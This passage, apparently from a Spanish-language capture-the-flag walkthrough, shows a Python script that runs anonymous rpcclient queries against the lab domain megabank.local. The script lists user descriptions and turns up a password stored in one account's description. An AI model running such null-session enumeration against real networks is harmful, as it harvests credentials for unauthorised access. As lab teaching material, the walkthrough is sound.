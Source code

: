 ```bash
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000077
	padding1[0..7]...
	logon_hrs[0..21]...
```

- Como son muchos usuarios podemos crear un **script** en **Python3** que nos filtre por las descripciones de los usuarios para ir más rapido.

```python
import subprocess
import re

with open('users.txt', 'r') as f:
    for user in f:
        user = user.strip()
        # Ejecutamos el comando
        command_output = subprocess.run(['rpcclient', '-N', '-U', '', 'megabank.local', '-c', f'queryuser {user}'], capture_output=True, text=True)
        # Filtramos por las lineas que contengan "User Name" o "Description"
        filtered_output = [line for line in command_output.stdout.split('\n') if re.search(r'User Name|Description', line)]
        # Imprimimos el resultado
        for line in filtered_output:
            print(line)

```

- Y encontramos una contraseña.

```bash
➜  nmap python3 xd.py
	User Name   :	Administrator
	Description :	Built-in account for administering the computer/domain
	User Name   :	Guest
	Description :	Built-in account for guest access to the computer/domain
	User Name   :	krbtgt
	Description :	Key Distribution Center Service Account
	User Name   :	DefaultAccount
	Description :	A user account managed by the system.
	User Name   :	ryan
	Description :	
	User Name   :	marko
	Description :	Account created. Password set to Welcome123!
	User Name   :	sunita
	Description :	
	User Name   :	abigail
	Description :	
	User Name   :	marcus
	Description :	
	User Name   :	sally
	Description :	
	User Name   :	fred
	Description :	
	User Name   :	angela
	Description :	
	User Name   :	felicia
	Description :	
	User Name   :	gustavo
	Description :	
	User Name   :	ulf
	Description :	
```